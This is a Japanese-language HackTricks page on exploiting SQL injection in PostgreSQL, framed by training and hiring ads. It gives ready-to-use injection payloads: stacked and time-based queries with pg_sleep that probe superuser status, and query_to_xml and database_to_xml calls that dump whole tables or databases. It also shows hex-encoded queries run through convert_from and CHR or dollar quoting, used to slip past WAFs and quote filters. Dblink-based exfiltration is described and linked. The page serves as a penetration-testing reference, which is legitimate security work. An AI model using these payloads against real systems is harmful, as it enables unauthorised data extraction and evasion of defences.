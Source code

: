 # PostgreSQLインジェクション

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

***

**このページは、PostgreSQLデータベースで見つかったSQLインジェクションを悪用するのに役立つさまざまなトリックを説明し、** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) **で見つけられるトリックを補完することを目的としています。**

## ネットワークインタラクション - 権限昇格、ポートスキャナー、NTLMチャレンジレスポンスの開示とエクスフィルトレーション

**PostgreSQLモジュール`dblink`**は、他のPostgreSQLインスタンスに接続し、TCP接続を実行する機能を提供します。これらの機能は、`COPY FROM`機能と組み合わせることで、権限昇格、ポートスキャン、NTLMチャレンジレスポンスのキャプチャなどのアクションを可能にします。これらの攻撃を実行する詳細な方法については、[これらの攻撃を実行する方法](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md)を確認してください。

### **dblinkと大きなオブジェクトを使用したエクスフィルトレーションの例**

[**この例を読む**](dblink-lo\_import-data-exfiltration.md)と、**大きなオブジェクト内にデータをロードし、その後、`dblink_connect`関数のユーザー名内の大きなオブジェクトの内容をエクスフィルトレーションする方法**のCTF例を確認できます。

## PostgreSQL攻撃: 読み書き、RCE、権限昇格

ホストを侵害し、PostgreSQLから権限を昇格させる方法を確認してください:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAFバイパス

### PostgreSQL文字列関数

文字列を操作することで、**WAFやその他の制限をバイパスする**のに役立ちます。\
[**このページ**](https://www.postgresqltutorial.com/postgresql-string-functions/)**では、いくつかの便利な文字列関数を見つけることができます。**

### スタッククエリ

PostgreSQLはスタッククエリをサポートしていますが、2つのレスポンスが返されるとエラーをスローするアプリケーションがいくつかあります。しかし、時間インジェクションを介してスタッククエリを悪用することは可能です:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XMLトリック

**query\_to\_xml**

この関数は、すべてのデータをXML形式で1つのファイルに返します。1行で大量のデータをダンプしたい場合に最適です：
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

この関数は、データベース全体をXML形式で1行にダンプします（データベースが非常に大きい場合は注意してください。DoS攻撃を引き起こす可能性がありますし、クライアントにも影響を与える可能性があります）：
```sql
SELECT database_to_xml(true,true,'');
```
### Hexでの文字列

**文字列の中に**（例えば、**`query_to_xml`**関数を使用して）**クエリを渡すことができる場合、**convert\_fromを使用して文字列を16進数として渡し、この方法でフィルターをバイパスできます：**

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### 禁止された引用符

ペイロードに引用符を使用できない場合、基本的な句のために `CHR` を使用してこれを回避できます（_文字の連結は、SELECT、INSERT、DELETEなどの基本的なクエリにのみ機能します。すべてのSQLステートメントには機能しません_）：
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
または `$` を使用します。このクエリは同じ結果を返します：
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

もしあなたが**ハッキングキャリア**に興味があり、アンハッカブルなものをハックしたいなら - **私たちは採用しています！**（_流暢なポーランド語の読み書きが必要_）。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
